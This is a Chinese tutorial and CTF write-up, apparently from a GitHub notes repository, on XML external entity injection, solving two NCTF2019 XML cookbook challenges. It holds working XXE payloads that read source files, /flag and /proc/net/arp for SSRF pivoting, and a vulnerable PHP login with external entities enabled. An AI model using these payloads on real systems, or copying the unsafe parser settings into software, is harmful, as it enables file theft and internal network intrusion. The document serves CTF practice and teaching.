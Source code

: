 # XML外部实体注入

[https://zh.wikipedia.org/wiki/XML](https://zh.wikipedia.org/wiki/XML)

XML定义结构,存储信息,传送信息

```xml
<?xml version="1.0"?>
  <小纸条>
    <收件人>大元</收件人>
    <发件人>小张</发件人>
    <主题>问候</主题>
    <具体內容>早啊，饭吃了沒？ </具体內容>
  </小纸条>
```

每个XML文档都由XML声明开始,在前面的代码中的第一行就是XML声明`<?xml version="1.0"?>`

这一行代码会告诉解析器或浏览器这个文件应该按照XML规则进行解析

但是,根元素到底叫`<小纸条>`还是`<小便条>`,则是由[文档类型定义](https://zh.wikipedia.org/wiki/文档类型定义)(DTD)定义的,如果DTD规定根元素必须叫`<小便条>`,那么若写作`<小纸条>`就不符合要求

可以在DTD中定义实体

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY a "asdf" >
]>
<test>
    <name>&a;</name>
    <passwd>passwd</passwd>
</test>
```

![image-20210424153027591](image-20210424153027591.png)

除了在DTD中使用内部实体外还可以使用外部实体

### [NCTF2019]Fake XML cookbook

在提交用户名和密码是抓包的结果为

```xml
<user><username>admin</username><password>admin</password></user>
```

将提交的结果替换为

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY shell SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&shell;</username><password>admin</password></user>
```

即可对外部实体进行引用,从而对`doLogin.php`进行读取

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

对flag进行读取

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY shell SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
]>
<user><username>&shell;</username><password>admin</password></user>
```

### [NCTF2019]True XML cookbook

使用相同的payload即可读取源代码

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

但是`www`和根目录都没找到flag,看wp说要SSRF

读取`/proc/net/arp`,得到ip`10.0.159.2`

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY shell SYSTEM "file:///proc/net/arp">
]>
<user><username>&shell;</username><password>admin</password></user>
```

爆破C段,getflag

![image-20210425112554267](image-20210425112554267.png)
